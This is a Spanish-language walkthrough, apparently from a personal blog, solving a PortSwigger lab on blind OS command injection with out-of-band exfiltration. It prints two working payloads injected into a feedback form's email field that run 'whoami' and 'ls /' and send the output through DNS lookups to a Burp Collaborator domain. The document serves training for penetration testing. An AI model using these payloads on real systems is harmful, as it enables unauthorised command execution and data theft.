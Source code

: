 ```yaml
---
title: OS Command Injection Lab 5
date: 2024-12-01 12:26:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - OS Command Injection
tags:
  - OS Command Injection
  - Blind OS command injection with out-of-band data exfiltration
image:
  path: /assets/img/OS-Command-Injection-Lab-5/Portswigger.png
---
```


## Skills

- Blind OS command injection with out-of-band data exfiltration

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `Blind OS Command Injection` en la `función` de `comentarios`. La aplicación `ejecuta` un `comando` en la `terminal` que incluye `datos` proporcionados por el `usuario`. El `comando` se ejecuta de forma `asíncrona` y no tiene efecto en la `respuesta` de la aplicación. No es posible `redireccionar` la `salida` a una `ubicación` accesible. Sin embargo, es posible desencadenar `out-of-band interactions` con un `dominio externo`. Para resolver el `laboratorio`, debemos ejecutar el `comando` `whoami` y exfiltra su `salida` mediante una `consulta DNS` a `Burp Collaborator`. Necesitaremos introducir el `nombre` del `usuario` actual para completar el `laboratorio`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/OS-Command-Injection-Lab-5/image_1.png)

Pulsamos en `Submit feedback` y vemos un `formulario`

![](/assets/img/OS-Command-Injection-Lab-5/image_2.png)

Hacemos `click` sobre `Submit feedback` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/OS-Command-Injection-Lab-5/image_3.png)

La `respuesta` obtenida son unas `llaves vacías {}`

![](/assets/img/OS-Command-Injection-Lab-5/image_4.png)

Nos dirigimos a `Burpsuite Collaborator` hacemos `click` en `Copy to clipboard`, debido a que no recibimos `ninguna respuesta` que indique que estamos `inyectando comandos`, esta es la única forma que podemos utilizar para ello, debemos usar este `payload` en los diferentes `campos` para ver si son `inyectables`

```
csrf=h2bWPuUAS3XRnSo6w2sMMhhnp9pXPlbe&name=test&email=||nslookup+`whoami`.s6z1cmuo54u5lsajrthrckwd84ev2sqh.oastify.com||&subject=test&message=test
```

Si nos vamos a `Burpsuite Collaborator` nuevamente veremos que hemos obtenido `dos peticiones DNS` con el `output` del comando `whoami`

![](/assets/img/OS-Command-Injection-Lab-5/image_5.png)

Si necesitamos obtener más de una línea podemos usar este otro `payload` de `Hacktricks` [https://book.hacktricks.xyz/pentesting-web/command-injection#dns-based-data-exfiltration](https://book.hacktricks.xyz/pentesting-web/command-injection#dns-based-data-exfiltration)

```
csrf=h2bWPuUAS3XRnSo6w2sMMhhnp9pXPlbe&name=test&email=||for+i+in+$(ls+/);+do+host+"$i.4gldmy40fg4hv4kv15r3mw6pigo7c50u.oastify.com";+done||&subject=test&message=test
```

Pulsamos en `Submit solution` e `introducimos` el nombre de usuario `peter-qflr5j`

![](/assets/img/OS-Command-Injection-Lab-5/image_6.png)

